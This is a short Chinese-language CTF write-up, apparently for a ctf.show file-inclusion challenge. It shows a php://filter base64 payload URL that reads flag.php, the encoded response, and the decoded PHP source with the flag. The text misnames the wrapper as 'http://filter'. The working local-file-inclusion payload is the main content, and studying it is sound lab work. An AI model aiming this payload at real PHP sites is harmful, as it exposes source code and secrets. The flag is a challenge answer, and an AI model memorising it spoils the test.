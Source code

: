 这个题目其实和我们当时做RCE远程代码执行的时候有做到过，我们如果要通过include读取文件，就需要用到http://filter协议去读取源码

```url
http://4258ef9c-e6a8-45ef-a0b4-b43bc0a5a484.challenge.ctf.show/?file=php://filter/read=convert.base64-encode/resource=flag.php
```

<figure><img src="../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

得到的base64编码是

```
PD9waHANCg0KLyoNCiMgLSotIGNvZGluZzogdXRmLTggLSotDQojIEBBdXRob3I6IGgxeGENCiMgQERhdGU6ICAgMjAyMC0wOS0xNiAxMDo1NToxMQ0KIyBATGFzdCBNb2RpZmllZCBieTogICBoMXhhDQojIEBMYXN0IE1vZGlmaWVkIHRpbWU6IDIwMjAtMDktMTYgMTA6NTU6MjANCiMgQGVtYWlsOiBoMXhhQGN0ZmVyLmNvbQ0KIyBAbGluazogaHR0cHM6Ly9jdGZlci5jb20NCg0KKi8NCg0KDQokZmxhZz0iY3Rmc2hvd3s0MTgyMmFiNi05MzBjLTQxMTUtYWFlNi02NjYyNDg2ZmE3MWN9Ijs=
```

解码得

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 10:55:11
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 10:55:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


$flag="ctfshow{41822ab6-930c-4115-aae6-6662486fa71c}";
```
